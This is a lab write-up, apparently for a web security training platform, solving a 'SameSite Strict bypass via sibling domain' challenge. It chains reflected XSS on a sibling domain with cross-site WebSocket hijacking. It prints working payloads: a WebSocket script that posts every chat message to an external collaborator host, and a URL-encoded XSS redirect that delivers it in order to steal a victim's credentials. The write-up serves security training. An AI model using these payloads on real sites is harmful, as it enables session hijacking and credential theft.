








# SameSite Strict bypass via sibling domain
# Objective
This lab's live chat feature is vulnerable to cross-site WebSocket hijacking (CSWSH). To solve the lab, log in to the victim's account.\
To do this, use the provided exploit server to perform a CSWSH attack that exfiltrates the victim's chat history to the default Burp Collaborator server.\
The chat history contains the login credentials in plain text. 

# Solution
## Analysis
On the website there is a live chat feature implemented using WebSockets.\
There is no CSRF protection in websocket handshake request.\
Every time user establishes websocket connection data from all previous interaction with chat is sent over websocket.\
In one of the responses there is `Access-Control-Allow-Origin` pointing to sibling domain.

||
|:--:| 
| *WebSocket handshake* |
||
| *Cookie configuration - Samesite is set to Strict* |
||
| *Sibling domain* |


## Exploitation
### CSWSH Exploit
Attacker can steal data send via websocket by using configuration below - user opens website, websocket connection is established automattically (no CSRF protections), every websocket responnse from server is sent to attacker domain.

Session cookies were not sent with request due to `SameSite=Strict` attribute - sensitive data can not be stolen.

```html
<!DOCTYPE html>
<html>
  <head>
    <title>WS</title>
  </head>
  <body>
    <script>
      var ws = new WebSocket('wss://<id>.web-security-academy.net/chat');
      ws.onopen = function() {
        ws.send("READY");
      };
      ws.onmessage = function(event) {
        fetch('https://<id>.oastify.com', {
          method: 'POST',
          mode: 'no-cors',
          body: event.data
        });
      };
    </script>
  </body>
</html>
```

## XSS Exploit
Sibling domain login page is vulnerable to reflected XSS - username field is not sanitized.\
It allows both GET and POST requests.

||
|:--:| 
| *Standard request* |
||
| *POST request with XSS payload* |
||
| *GET request with XSS payload* |

## SameSite Strict bypass via sibling domain - CSWSH via XSS
Exploitation steps:
1. Victim opens attacker website with exploit
2. Victim is redirected to sibling domain with XSS
3. XSS is trigerred, which performs CSWSH
- Victim's browser sends cookies (sibling domain and main domain is `SameSite`) to `/chat` to establish websocket connection
- Chat data is exfiltrated to attacker domain

CSWSH payload:
```
<script>
var ws = new WebSocket('wss://<id>.web-security-academy.net/chat');
ws.onopen = function() {
ws.send("READY");
};
ws.onmessage = function(event) {
fetch('https://<id>.oastify.com', {
method: 'POST',
mode: 'no-cors',
body: event.data
});
};
</script>
```

Exploit server configuration - CSWSH payload from above was URL-encoded and inserted as XSS payload below:
```html
<script>
document.location = "https://cms-0a590046033ef966800103b400030044.web-security-academy.net/login?username=%3Cscript%3E%0Avar%20ws%20=%20new%20WebSocket('wss://0a590046033ef966800103b400030044.web-security-academy.net/chat');%0Aws.onopen%20=%20function()%20%7B%0Aws.send(%22READY%22);%0A%7D;%0Aws.onmessage%20=%20function(event)%20%7B%0Afetch('https://vxweuvjoayn75g6e0uoi8itzsqyhm7aw.oastify.com',%20%7B%0Amethod:%20'POST',%0Amode:%20'no-cors',%0Abody:%20event.data%0A%7D);%0A%7D;%0A%3C/script%3E&password=test"
</script>
```

||
|:--:| 
| *Exploit server configuration* |
||
| *Cross-site webSocket hijacking via XSS from sibling domain* |
